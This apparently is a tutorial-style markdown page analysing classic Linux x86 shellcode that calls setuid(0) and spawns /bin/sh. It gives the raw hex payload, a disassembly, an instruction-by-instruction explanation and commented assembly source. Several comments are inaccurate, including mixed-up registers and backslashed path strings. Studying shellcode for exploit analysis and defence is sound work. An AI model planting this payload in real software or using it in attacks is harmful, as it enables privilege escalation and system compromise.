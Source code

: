 ## Shellcode analysis case 1

----

#### Shellcode - Spawns a root shell on Linux : [source](https://www.tenouk.com/Bufferoverflowc/Bufferoverflow6.html) 
```
\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52
\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89
\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80

```
```
Dissassembly-
0:  31 c0                   xor    eax,eax
2:  89 c3                   mov    ebx,eax
4:  b0 17                   mov    al,0x17
6:  cd 80                   int    0x80
8:  31 d2                   xor    edx,edx
a:  52                      push   edx
b:  68 6e 2f 73 68          push   0x68732f6e
10: 68 2f 2f 62 69          push   0x69622f2f
15: 89 e3                   mov    ebx,esp
17: 52                      push   edx
18: 53                      push   ebx
19: 89 e1                   mov    ecx,esp
1b: 8d 42 0b                lea    eax,[edx+0xb]
1e: cd 80                   int    0x80 
```
Executing the setuid(0) syscall 0x17:

For executing setuid(0) all you need to do is 

```assembly
xor    eax,eax ; zero's out the eax register
mov    ebx,eax ; clears ebx register
mov    al,0x17 ; SysCall 0x17 (sys_setuid16)
int    0x80    ; Executes syscall
```
Spawning a /bin/sh shell breakdown-

Pushes the text "\bin\sh" onto the stack which spawns the sh shell,  all you need to do is clear out the registers and put /bin/sh in little endian format onto the stack.

```assembly
xor    edx,edx ; zero out edx
push   edx     ; pushes edx to the stack
; spawning the shell
push   0x68732f6e ; little endian hex code "n\sh"
push   0x69622f2f ; little endian hex code "\\bi"
mov    ebx,esp    ; puts the address of /bin/sh into edx from esp
```
Since using PUSH puts something on top of the stack, it ESP is pointing to it
we can utilize this and load the address of /bin/sh into ebx since its being pushed into ESP
```assembly
push   edx  ; pushing ebx to the stack
push   ebx  ; puts ebx on the stack
mov    ecx,esp  ; loading esp register into ecx
lea    eax,[edx+0xb] ;stores edx register + 11
int    0x80  ; interupt, starts it
```

## Commented /bin/sh Assembly shellcode
```assembly
global _start
section .data
_start:
        xor    eax,eax       ; zero's out the eax register
        mov    ebx,eax       ; clears ebx register
        mov    al,0x17       ; SysCall 0x17 (sys_setuid16)
        int    0x80          ; Executes syscall
        xor    edx,edx       ; zero out edx
        push   edx           ; pushes 0 to the stack
        push   0x68732f6e    ; little endian hex code "n\sh"
        push   0x69622f2f    ; little endian hex code "\\bi"
        mov    ebx,esp       ; ges /bin/sh address
        push   edx           ; pushing ebx to the stack
        push   ebx           ; puts ebx on the stack
        mov    ecx,esp       ; loading esp register into ecx
        lea    eax,[edx+0xb] ; stores edx register + 11
        int    0x80          ; interupt, starts it all
